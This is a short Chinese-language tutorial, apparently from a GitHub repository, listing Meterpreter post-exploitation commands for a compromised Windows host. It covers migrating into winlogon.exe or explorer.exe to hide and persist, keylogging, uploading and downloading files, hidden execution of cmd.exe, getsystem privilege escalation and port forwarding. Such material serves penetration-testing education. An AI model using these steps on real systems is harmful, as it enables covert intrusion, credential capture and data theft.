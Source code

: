 # 伪装要做好--绑定其他进程

Meterpreter 既可以单独运行，`也可以与其他进程进行绑定`。因此，`我们可以让Meterpreter与类似explorer.exe这样的进程进行绑定`，并以此来实现可持续化发展。

我们这此和winlogon.exe绑定 顺手还可以捕获键盘记录。
![](img/18.png)

我们可以使用： 
```
 getpid      \\ 查看我们当前的进程id
```
使用
```
migrate  ID号            \\绑定目标进程id     
```

> 这里绑定目标pid的时候，经常会断了 shell。进程迁移后会自动关闭原来进程，没有关闭可使用  kill  pid  命令关闭进程

如果你一筹莫展不知道应该混进那个进程，可以用自动迁移
```
run post/windows/manage/migrate        \\系统会自动寻找合适的进程然后迁移。
```






### 文件上传
```
upload <file> <destination>
\\上传文件到Windows主机 注意：使用-r参数可以递归上传上传目录和文件
```
### 文件下载
```
download <file> <path to save>
 \\可以下载远程主机上的文件,
 
 如果我们需要递归下载整个目录包括子目录和文件，我们可以使用download -r命令
```
### 文件执行
```
在目标主机上执行exe文件
execute -f <path> [options]
```
### 获取权限
```
获取admin权限
getsystem
```
目标主机上执行exe文件
```
execute -H -i -f cmd.exe \\
  创建新进程cmd.exe，-H不可见，-i交互

  execute -f <path> [options]   \\在目标主机上执行exe文件
```
### 显示进程
```
ps
```
### 创建端口转发
```
portfwd add -l <端口号> -r <目标IP> 

```